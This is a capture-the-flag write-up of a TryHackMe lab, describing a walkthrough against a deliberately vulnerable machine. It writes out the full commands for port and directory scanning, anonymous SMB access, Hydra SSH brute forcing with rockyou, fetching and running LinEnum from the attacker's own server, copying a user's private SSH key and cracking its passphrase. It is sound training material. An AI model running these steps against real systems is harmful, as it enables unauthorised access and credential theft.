# Basic Pen Testing Report

**Target Host - 10.10.162.245**

**Local Host - 10.4.65.102**

I start by executing a `nmap -sV -A 10.10.162.245` scan to locate open ports, services, versions and the operating system.



Nmap reveals that ports 80 & 8080 are open.  I will try locating the webpage



Accessing the web page results in a blank page indicating it is undergoing maintenance.  Lets try using port 8080 instead.



Accessing via port 8080 indicates that there may be directories hidden inside of the web gui that aren't visible.  I will use gobuster to identify if this is correct.

I type the following command into the kali terminal:

`gobuster dir -u http:10.10.162.245 -w /usr/share/wordlists/dirbuster/directory-list-2.3.medium.txt`

dir =  looks for hidden directories in the URL specified.

-u = specifies the URL to look for directories within.

-w = applies wordlist with common directory names as a dictionary to cross reference and help locate directories.



Gobuster has identified a hidden directory `/development` exists on the webpage.  Now I can type in `http://10.10.162.245/development` into the web gui to access this.



Navigating to the hidden url has revealed 2x .txt files called dev and j.  The contents of j indicate that the user j has a weak password which I can attempt to brute as identified by someone named k.  Both of these are also potential usernames.  The contents of dev indicate that there may be useful information in /etc/shadow.

From my previous nmap scan I know that port 22/SSH is open so I can attempt to ssh into the server and use j or k as the username.



Bingo.  I can ssh into the server and successfully guess that the username is j.  Now I can run a password cracking tool to brute force the password - for this I will use Hydra and the rockyou.txt common password dump wordlist.  The wordlist is located in `/usr/share/wordlists/rockyou.txt`

Before I attempt to brute force I will attempt to locate information using SMB as it is also open as identified via nmap earlier.



Using the command `smbmap -H 10.10.162.245` I can identify the host share permissions.  This has identified that Anonymous Read only access is available which is excellent as we can enter without a password.

Next I will use the command `smbclient \\\\10.10.162.245\\anonymous` to gain read only access to the client via SMB.  Once I have access I will enter a `ls` command to locate the contents of the current directory - this identifies a txt file called `staff.txt`



I open the contents of the staff.txt file by entering the command `cat staff.txt`.  This reveals 2 staff members named Jan & Kay.  Excellent as this seems to match up with what we identified earlier with j & k.

Now I will attempt to use Hydra to brute force all possible username combinations `j, k, J, K, Jan, Kay, jan, kay` using the following command.

`sudo hydra -l jan -P /usr/share/wordlists/rockyou.txt 10.10.111.49 ssh` **- please note the IP has changed as the victim attack box timed out**

-l = Sets the username as jan

-P = Sets the password but in this case its pointing towards a common password list called rockyou.txt.  Basically Hydra will brute force using every password in the rockyou.txt file against the username jan to find a successful match.

ssh = Tells Hydra to attack via ssh.



As per above I can confirm the hydra attack was succesful in identifying the password for user jan is `armando`.  Now I can ssh into the client using the command `ssh jan@10.10.110.118` and enter the password `armando`. **- please note the IP has changed as the victim attack box timed out**



Now that I can successfully login to the server with the user account jan - I am to enumerate privileges.  For this I will use the LiNEnum script on the victim machine to locate potential vectors (Privelage escalation script to locate useful information for potential vectors to escalate privilege).  To achieve this I will need to transfer the script over to the server from my kali machine.  I will set my machine up as a HTTP server using the command `python3 -m http.server`



As you can see I can now access my machine via the web gui through the my `ip_address:8000 (http://10.4.65.102:8000)`.  For convenience sake I pasted this LiNEnum script into my root directory so it is easily accessible. 



Now all I need to do is retrieve this script from the victims machine.  I attempt do this from the default directory logged in as user jan however I am unsuccessful using the command `wget http://10.4.65.102:8000/LinEnum.sh`, but I receive a Permission Denied Error.  I will try navigating to the /tmp directory using the command `cd /tmp` as it usually has write permissions.  From here I will attempt to retrieve the .sh script again.



Retrieving the script is sucessfuly via the tmp directory.  Now I can execute the bash script using the command `bash LinEnum.sh`



Now that I have executed LinEnum, I have to determine how I can enumerate permissions or retrieve useful information.  On the victim server I identify current directory contents by using `ls` and locate a usr folder.  I navigate to the and identify another user name kay.  From there I identify her .bak pass file. 


**Please note there is a vast majority of useful information here to retrieve but for the purpose of this TryHackMe room I will attempt to retrieve this password)**

I navigate back to the user kay directory and enter `ls -la` to identify any hidden directors and associated permissions.  I identify the sub folder `.ssh`.  Navigating here reveals the `id_rsa` file which is the user kay's private RSA key associated with her SSH login. - excellent. 

 I enter the command `id_rsa` to identify the rsa key and I copy this output and open up my alternate Kali shell and paste this into a text file using the command `nano.txt`

 

I now give the file execute permissions by typing `chmod +x id_rsa`.  Now I can try to ssh back into the shell using user `kay` this time with the following command `ssh -i id_rsa kay@10.10.153.90`.  Unfortunately the password is passphrase is protected.



I can use an offline password cracking tool such as John the Ripper to brute force this.  I locate the ssh john the ripper file `ssh2john.py` in `usr/share/john`.  I cd back to the root directory and execute the password cracking .py file against the rsa key using the following command `python3 /usr/share/john/ssh2john.py id_rsa`

This appears to print out a hash key.  I enter the same command with `> hash.txt` added to the end to print that hash output to a txt file.

From here I can run john the ripper against the hash.txt file using the rockyou.txt wordlist once again to brute force the passphrase of the SSH private key passphrase.

This reveals the the passphrase for the id_rsa file as `beeswax`

Now i can enter the web server as user kay by entering the command `ssh -i id_rsa kay@10.10.153.90`.  The victim server will prompt for a passphrase oif the ssh rsa file which I know now as `beeswax`.  I enter the passphrase and successfully get ssh access to the server as kay.



The final task is to identify the password of the user kay to complete this room.  I attemp to locate any hidden files by entering `ls -la` and identify `pass.bak`.  I execute this by entering `cat pass.bak` and it reveals the password to be:
`heresareallystrongpasswordthatfollowsthepasswordpolicy$$`
